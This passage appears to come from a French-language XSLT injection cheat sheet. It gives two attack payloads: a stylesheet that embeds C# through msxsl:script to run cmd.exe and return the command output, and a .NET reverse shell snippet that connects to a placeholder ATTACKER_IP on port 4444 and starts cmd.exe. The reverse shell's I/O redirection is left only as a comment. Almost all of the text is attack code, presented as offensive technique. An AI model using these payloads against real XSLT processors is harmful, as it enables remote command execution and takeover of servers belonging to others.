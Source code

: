 **6.2 - Exécution avec sortie :**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet version="1.0"
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:msxsl="urn:schemas-microsoft-com:xslt"
  xmlns:user="urn:my-scripts">
  
  <msxsl:script language="C#" implements-prefix="user">
    <![CDATA[
      public string execute()
      {
        System.Diagnostics.Process proc = new System.Diagnostics.Process();
        proc.StartInfo.FileName = "C:\\windows\\system32\\cmd.exe";
        proc.StartInfo.RedirectStandardOutput = true;
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.Arguments = "/c dir C:\\";
        proc.Start();
        proc.WaitForExit();
        return proc.StandardOutput.ReadToEnd();
      }
    ]]>
  </msxsl:script>
  
  <xsl:template match="/">
    <output>
      <pre><xsl:value-of select="user:execute()"/></pre>
    </output>
  </xsl:template>
</xsl:stylesheet>
```

**6.3 - Reverse shell .NET :**

```xml
<msxsl:script language="C#" implements-prefix="user">
  <![CDATA[
    public string ReverseShell()
    {
      System.Net.Sockets.TcpClient client = new System.Net.Sockets.TcpClient("ATTACKER_IP", 4444);
      System.IO.StreamWriter stream = new System.IO.StreamWriter(client.GetStream());
      System.Diagnostics.Process proc = new System.Diagnostics.Process();
      proc.StartInfo.FileName = "cmd.exe";
      proc.StartInfo.RedirectStandardInput = true;
      proc.StartInfo.RedirectStandardOutput = true;
      proc.StartInfo.UseShellExecute = false;
      proc.Start();
      // Redirection I/O
      return "Connected";
    }
  ]]>
</msxsl:script>
```
